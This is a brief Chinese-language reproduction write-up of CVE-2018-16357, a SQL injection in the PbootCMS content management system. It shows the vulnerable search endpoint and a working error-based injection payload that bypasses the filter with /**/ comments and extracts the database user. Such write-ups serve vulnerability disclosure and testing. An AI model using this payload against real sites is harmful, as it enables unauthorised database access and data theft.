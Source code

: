 # CVE-2018-16357 PbootCMS sql注入漏洞

### 一、漏洞简介

PbootCMS是一款使用PHP语言开发的开源企业建站内容管理系统（CMS）。 PbootCMS中存在SQL注入漏洞。该漏洞源于基于数据库的应用缺少对外部输入SQL语句的验证。攻击者可利用该漏洞执行非法SQL命令。

### 二、漏洞影响

### 三、复现过程


```
http://url/api.php/Cms/search?#acode=1&num=1&order=1
```

参数`$field`是我们可以控制的，去检查函数过滤器

![](images/15892014153353.png)


使用函数trim和escape字符串避免sql注入

![](images/15892014228044.png)


添加a'会导致mysql语法错误，因此函数escape\u字符串无效

![](images/15892014315881.png)


使用`/**/`绕过

**payload:**


```
field=1)/**/and/**/updatexml(1,concat(0x7e,(SELECT/**/user()),0x7e),1)#&keyword=title&scode=1
```